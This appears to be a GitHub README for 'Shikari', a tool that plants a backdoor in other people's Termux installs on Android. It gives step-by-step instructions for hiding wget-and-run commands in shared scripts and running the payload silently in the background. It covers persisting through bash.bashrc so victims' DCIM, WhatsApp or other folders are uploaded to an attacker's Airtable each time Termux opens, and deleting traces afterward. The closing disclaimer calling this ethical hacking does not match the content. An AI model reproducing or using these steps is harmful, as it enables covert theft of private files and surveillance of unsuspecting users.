 
<h1 align="center">
  <br>
  <a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/shikari.gif" alt=""></a>
  <br>
  Shikari
  <br>
</h1>

<h4 align="center">Create Backdoor in Termux</h4>

## Features

✓ First time on internet 😎 , Give credit if you are going to copy my idea or code ;)</br>
✓ You can get any files of victim 🌚</br>
- /storage/DCIM
- /storage/Pictures
- /storage/WhatsApp 
- /storage/Anything..;)

✓ All things happen in background.</br>
✓ Not Easily Detectable</br>
✓ You will get notifications through Email ;)</br>

## Tutorial
### Step 1
- [Create New Account](https://airtable.com/invite/r/GNqgr5Ps)
### Step 2
- Create New Base
- Create Table
- Create 2 Field
    + Field 1 : Name
    + Field 2 : link
- Check Screenshot for Understanding.

<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-183933.jpg"></a>
### Step 3
Note Down following ids.
+ [API ID](https://airtable.com/account)
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-185807.jpg"></a>
+ [Base ID](https://airtable.com/api)
<a href="#"><img src="https://d3drh3gsi3sqc6.cloudfront.net/images/airtable-find-base-id.png"></a>
+ Table Name
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-192936.jpg"></a>
### Step 4
Paste below code in your github and save it "shikari.txt"</br>
modify your details under " " or ' '</br>
```
export api="keyamJ*********"
export base='appJ8Pj*****'
export table="hack"
export folder="ADM"
[[ "${#BASH_SOURCE[@]}" -gt "1" ]] && { return 0; }
```

Enter your folder name you want to Hack. (ex. DCIM, Pictures, Download, Music) </br></br>
Now you can change your target folder anytime by changing in your github shikari.txt.</br></br>
When you change it with "Documents" then you will get Documents ! if you change folder name to "Pictures" then you will get Pictures of victim 🌚</br></br>

### Step 5

+ Now add below command in your script.
Example.,

+ Change wget link with your shikari.txt.link
```
$ cd $HOME
$ wget https://raw.githu../master/shikari.sh (your shikari.txt raw link)
$ pkg install python -y
$ pip install shikari
$ shikari
```

After Complete Process Don't forget to remove "shikari.txt" file
```
cd $HOME
rm -f shikari.txt
```

### Background Process
Add this code in your new "hack.sh" script for background process.
```
_evalBg() {
eval "$@" &>/dev/null & disown;
}
cmd="pip install shikari && shikari";
_evalBg "${cmd}";
```
Add "bash hack.sh" in your shikari.txt script instead of pip install shikari...

```
$ cd $HOME
$ wget https://raw.githu../master/shikari.sh (your shikari.txt raw link)
$ pkg install python -y
$ bash hack.sh
```

You can upload hack.sh on your GitHub and add on victim device by wget command then you can put "bash hack.sh" for background process.
### logic
When someone open termux everytime you will get /storage/folder of victim.
+ You need to follow this step..(add below code in your Bash script)
```
mv hack.sh $PREFIX/etc/bin 
echo "bash hack.sh" >> $PREFIX/etc/bash.bashrc
```

### Limitation
+ You can't get any folder if your victim have no storage permission on Termux.
+ add this command in your script for Storage permission.
```
termux-setup-storage
```

### Email Setup
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203554.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203648.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203715.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203743.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-203810.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/Screenshot_20220414-204013.jpg"></a>

+ Setup according your need , when someone use your script then automatically backdoor
Created on victim device, everytime your victim open termux you will get his data through Email !!
+ After uploading folders, airtable will send you download link ;)

### Demo Screenshots
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205246_105.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205251_263__01.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205256_944__01.jpg"></a>
<a href="#"><img src="https://raw.githubusercontent.com/Bhai4You/bhai4you/master/IMG_20220414_205300_548.jpg"></a>


### Error/Problems
Send Mail to this id if you are facing any problems.</br>
Mail : parixit1337@gmail.com
### Disclaimer
The tutorial and demo provided for informational and educational purpose only, and for those who’re willing and curious to know and learn about Ethical Hacking, Security and Penetration Testing.</br></br> Any time the word “Hacking” that is used on this Application shall be regarded as Ethical Hacking.</br></br>
You shall not misuse the information to gain unauthorised access. However you may try out these hacks on your own computer at your own risk. Performing hack attempts (without permission) on computers that you do not own is illegal.
